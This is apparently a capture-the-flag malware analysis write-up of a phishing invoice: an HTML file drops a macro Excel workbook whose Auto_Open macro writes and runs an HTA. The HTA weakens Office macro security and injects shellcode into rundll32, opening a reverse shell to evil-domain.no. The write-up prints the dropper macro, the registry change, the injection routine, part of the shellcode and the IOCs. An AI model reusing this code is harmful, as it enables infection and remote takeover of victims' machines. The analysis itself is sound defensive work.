




### <span style="color:lightblue">TL;DR</span>

### <span style="color:red">initial analysis</span>
The sample is an HTML file containing a single long line. 
```console
$ file *             
invoice-42369643.html: ASCII text, with very long lines (48949)
```


### <span style="color:red">Excel nalysis</span>
Opened a html file in sandbox i downloaded a .xlsm file
```
invoice-42369643.xlsm: Microsoft Excel 2007+
```



Static analysis witz oleid confirmed the presence of suspicious VBA macros:
```
--------------------+--------------------+----------+--------------------------
Indicator           |Value               |Risk      |Description               
--------------------+--------------------+----------+--------------------------
File format         |MS Excel 2007+      |info      |                          
                    |Macro-Enabled       |          |                          
                    |Workbook (.xlsm)    |          |                          
--------------------+--------------------+----------+--------------------------
Container format    |OpenXML             |info      |Container type            
--------------------+--------------------+----------+--------------------------
Encrypted           |False               |none      |The file is not encrypted 
--------------------+--------------------+----------+--------------------------
VBA Macros          |Yes, suspicious     |HIGH      |This file contains VBA    
                    |                    |          |macros. Suspicious        
                    |                    |          |keywords were found. Use  
                    |                    |          |olevba and mraptor for    
                    |                    |          |more info.                
--------------------+--------------------+----------+--------------------------
XLM Macros          |No                  |none      |This file does not contain
                    |                    |          |Excel 4/XLM macros.       
--------------------+--------------------+----------+--------------------------
```
#### olevba
`olevba` was used to extract and analyze the VBA code:
```
+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |Auto_Open           |Runs when the Excel Workbook is opened       |
|AutoExec  |Label1_Click        |Runs when the file is opened and ActiveX     |
|          |                    |objects trigger events                       |
|Suspicious|Environ             |May read system environment variables        |
|Suspicious|Open                |May open a file                              |
|Suspicious|Write               |May write to a file (if combined with Open)  |
|Suspicious|Output              |May write to a file (if combined with Open)  |
|Suspicious|Shell               |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|Call                |May call a DLL using Excel 4 Macros (XLM/XLF)|
|Suspicious|Chr                 |May attempt to obfuscate specific strings    |
|          |                    |(use option --deobf to deobfuscate)          |
|Suspicious|Hex Strings         |Hex-encoded strings were detected, may be    |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
|Suspicious|Base64 Strings      |Base64-encoded strings were detected, may be |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
|IOC       |LwTHLrGh.hta        |Executable file name                         |
+----------+--------------------+---------------------------------------------+
```

Seconds after opening, `Auto_Open` fires. It assembles the HTA payload from three hidden sources (`ActiveSheet.Shapes(2).AlternativeText`, OLE stream `UZdcUQeJ.yTJtzjKX` and `Selection`) and executes it via `mshta.exe`:
```vb
Sub Auto_Open()
    Dim fHdswUyK, GgyYKuJh
    Application.Goto ("JLprrpFr")
    GgyYKuJh = Environ("temp") & "\LwTHLrGh.hta"
    
    Open GgyYKuJh For Output As #1
    Write #1, hdYJNJmt(ActiveSheet.Shapes(2).AlternativeText & UZdcUQeJ.yTJtzjKX & Selection)
    Close #1
    
    fHdswUyK = "msh" & "ta " & GgyYKuJh
    x = Shell(fHdswUyK, 1)
End Sub
```
- `ActiveSheet.Shapes(2).AlternativeText` — the "Alternative Text" field of the second Shape object on the worksheet. In Excel, Shape objects can be images, text boxes, charts, or other graphical elements embedded in a spreadsheet. In this case it stores a hidden encoded payload chunk invisible to the user.
- `UZdcUQeJ.yTJtzjKX` — an OLE stream containing a long base64 string: `lvbk5hbWUgIiYiQXMgU3RyaW4iJiJ...`
- `Selection` in this macro refers to whatever is currently selected in the Excel interface at the time the macro runs—this might be cell text, a range of cells.

  

#### vmonkey
`vmonkey` emulation confirmed the macro behavior:
```
+----------------------+-----------------------------------------------+---------------------------------+
| Action               | Parameters                                    | Description                     |
+----------------------+-----------------------------------------------+---------------------------------+
| Start Regular        |                                               | All wildcard matches will match |
| Emulation            |                                               |                                 |
| Found Entry Point    | auto_open                                     |                                 |
| Object.Method Call   | ['JLprrpFr']                                  | Application.Goto                |
| Environ              | ['temp']                                      | Interesting Function Call       |
| OPEN                 | C:\Users\admin\AppData\Local\Temp\LwTHLrGh.ht | Open File                       |
|                      | a                                             |                                 |
| Object.Method Call   | [-2147221504, '', '']                         | Err.Raise                       |
| Dropped File Hash    | 6b86b273ff34fce19d6b804eff5a3f5747ada4eaa22f1 | File Name: LwTHLrGh.hta         |
|                      | d49c01e52ddb7875b4b                           |                                 |
| Execute Command      | mshta C:\Users\admin\AppData\Local\Temp\LwTHL | Shell function                  |
|                      | rGh.hta                                       |                                 |
| Found Entry Point    | label1_click                                  |                                 |
| Found Entry Point    | Label1_Click                                  |                                 |
+----------------------+-----------------------------------------------+---------------------------------+
```

### <span style="color:red">Sandbox & HTA Analysis</span>
The malicious Excel file was executed in a sandbox. The dropped HTA file was extracted from the `%temp%` folder:
```console
LwTHLrGh.hta: HTML document, ASCII text, with CRLF, LF line terminators
```

#### hta file analysis
The HTA begins by creating a hidden Excel instance and a `Wscript.Shell` object, then modifies the registry to set `AccessVBOM` to `1`, lowering macro security and allowing programmatic VBA injection:
```vb
Dim objExcel, WshShell, RegPath, action, objWorkbook, xlmodule
Set objExcel = CreateObject(""Excel.Application"")
objExcel.Visible = False
Set WshShell = CreateObject(""Wscript.Shell"")

' Get the old AccessVBOM value
RegPath = ""HKEY_CURRENT_USER\Software\Microsoft\Office\"" & objExcel.Version & ""\Excel\Security\AccessVBOM""

' Weaken the target
WshShell.RegWrite RegPath, 1, ""REG_DWORD""

' Run the macro
Set objWorkbook = objExcel.Workbooks.Add()
Set xlmodule = objWorkbook.VBProject.VBComponents.Add(1)
```


The rest of the HTA code is heavily obfuscated using four techniques: concatenation splitting (`&`) to break AV signatures, `Chr()` calls for special characters, VBA line continuation (`_`), and keyword fragmentation across concatenation boundaries:
```vb
xlmodule.CodeModule.AddFromString ""Private ""&""Type PRO""&""CESS_INF""&""
ORMATION""&Chr(10)&""    hPro""&""cess As ""&""Long""&Chr(10)&""    hThr""&
""ead As L""&""ong""&Chr(10)&""    dwPr""&""ocessId ""&""As Long""&Chr(10)&
""    dwTh""&""readId A""&""s Long""&Chr(10)& _....
```

#### Deobfuscation
A Python script was used to deobfuscate the HTA by resolving `Chr()` calls, stripping concatenation operators and line continuations:
```python
import re

with open("LwTHLrGh.hta", "r") as f:
    data = f.read()

data = re.sub(r'Chr\((\d+)\)', lambda m: chr(int(m.group(1))), data)
data = data.replace('"', '').replace('&', '').replace('_', '')

with open("clear.vba", "w") as f:
    f.write(data)
```

The deobfuscated VBA reveals shellcode injection into `rundll32.exe`:
```vb
myArray = Array(-35,-63,-65,32,86,66,126,-39,116,36, 
-12,91,49,-55,-79,98,49,123,24,3,123,24,-125,  
-61,36,-76,-73,-126,-52,-70,56,123,12,-37...)

If Len(Environ("ProgramW6432")) > 0 Then
    sProc = Environ("windir") & "\SysWOW64\rundll32.exe"
Else
    sProc = Environ("windir") & "\System32\rundll32.exe"
End If

res = RunStuff(sNull, sProc, ByVal 0, ByVal 0, ByVal 1, ByVal 4, ByVal 0, sNull, sInfo, pInfo)

rwxpage = AllocStuff(pInfo.hProcess, 0, UBound(myArray), H1000, H40)

For offset = LBound(myArray) To UBound(myArray)
    myByte = myArray(offset)
    res = WriteStuff(pInfo.hProcess, rwxpage + offset, myByte, 1, ByVal 0)
Next offset

res = CreateStuff(pInfo.hProcess, 0, 0, rwxpage, 0, 0, 0)
...[snip]...
```

The shellcode is stored as a signed byte array. A Python script converts it to raw bytes:
```python
myArray = [
    -35,-63,-65,32,86,66,126,-39,116,36,-12,91,49,-55,-79,98,49,123,24,3,123,24,-125,
    -61,36,-76,-73,-126,-52,-70,56,123,12,-37,-79,-98,61,-37,-90,-21,109,-21,-83,-66,-127,
    -128,-32,42,18,-28,44,92,-109,67,11,83,36,-1,111,-14,-90,2,-68,-44,-105,-52,-79,21,-48,
    49,59,71,-119,62,-18,120,-66,11,51,-14,-116,-102,51,-25,68,-100,18,-74,-33,-57,-76,56,12,
    124,-3,34,81,-71,-73,-39,-95,53,70,8,-8,-74,-27,117,53,69,-9,-78,-15,-74,-126,-54,2,
    ...[snip]...
]

sc = bytes([b & 0xFF for b in myArray])

with open("sc.bin", "wb") as f:
    f.write(sc)
```


### <span style="color:red">Shellcode Analysis</span>

#### Decoder Stub
Loading `sc.bin` in IDA revealed a XOR-based decoder stub. It uses `fnstenv` to obtain the current instruction pointer via the FPU environment, then iterates over the payload XORing each block with a rolling key:
```nasm
seg000:0000000000000000   ffree   st(1)
seg000:0000000000000002   mov     edi, 7E425620h      ; initial XOR key
seg000:0000000000000007   fnstenv byte ptr [rsp-0Ch]  
seg000:000000000000000B   pop     rbx                 
seg000:000000000000000C   xor     ecx, ecx
seg000:000000000000000E   mov     cl, 62h             ; loop counter = 98
seg000:0000000000000010   xor     [rbx+18h], edi      ; decrypt next block
seg000:0000000000000013   add     edi, [rbx+18h]      ; update key
seg000:0000000000000016   add     ebx, 24h            
seg000:0000000000000019   mov     ah, 0B7h
```

#### scdbg Emulation
`scdbg` emulation of the decoded shellcode revealed a reverse shell connecting to `evil-domain.no` over port 443:
```
4010b6  LoadLibraryA(ws2_32)
4010c6  WSAStartup(190)
4010d5  WSASocket(af=2, tp=1, proto=0, group=0, flags=0)
401109  gethostbyname(evil-domain.no/HTB{g0_G3t_th3_ph1sh3R})
401121  connect(h=42, host: 127.0.0.1, port: 443)
40113c  recv(h=42, buf=12fc60, len=4, fl=0)
40117f  closesocket(h=42)
401109  gethostbyname(evil-domain.no/HTB{g0_G3t_th3_ph1sh3R}) = 1000
```

### <span style="color:lightblue">IOCs</span>

**Files**
\- `invoice-42369643.html` — initial phishing document  
\- `invoice-42369643.xlsm` — macro-enabled Excel workbook  
\- `C:\Users\*\AppData\Local\Temp\LwTHLrGh.hta` — dropped HTA payload  
\- `LwTHLrGh.hta` SHA256: `6b86b273ff34fce19d6b804eff5a3f5747ada4eaa22f1d49c01e52ddb7875b4b`  

**Registry**
\- `HKCU\Software\Microsoft\Office\<version>\Excel\Security\AccessVBOM` set to `1`  

**Network**
\- C2 Domain: `evil-domain.no`  
\- C2 Port: `443/tcp`  

**Processes**
\- `mshta.exe` — HTA execution  
\- `rundll32.exe` — shellcode injection target